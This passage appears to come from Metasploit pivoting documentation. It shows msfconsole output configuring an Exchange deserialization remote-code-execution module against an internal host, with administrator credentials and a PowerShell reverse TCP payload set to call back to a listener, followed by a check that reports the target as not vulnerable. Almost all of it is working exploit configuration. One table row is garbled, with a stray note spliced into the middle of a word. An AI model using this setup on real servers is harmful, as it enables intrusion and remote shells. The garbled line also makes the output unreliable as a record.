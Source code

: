 
## Using the Pivot
At this point we can now use the pivot with any Metasploit modules as shown below:

```msf
msf exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  thePassword      yes       The password to use to authenticate to the Ex
                                            change server
   HttpUsername  administrator    yes       The username to log into the Exchange server
                                            as
   Proxies                        no        A proxy chain of format type:host:port[,type:
                                            host:port][...]
   RHOSTS        169.254.204.110  yes       The target host(s), see https://github.com/ra
                                            pid7/metasploit-framework/wiki/Using-Metasplo
                                            it
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yTo come, awaiting some more testing hold on :)es       The local host or network interface to listen
                                             on. This must be an address on the local mac
                                            hine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is
                                            randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is r
                                            andom)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.19.182.171   yes       The listen address (an interface may be speci
                                            field)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > check

[*] Target is an Exchange Server!
[*] 169.254.204.110:443 - The target is not exploitable. Exchange Server 15.2.986.14 does not appear to be a vulnerable version!
msf exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) >
```
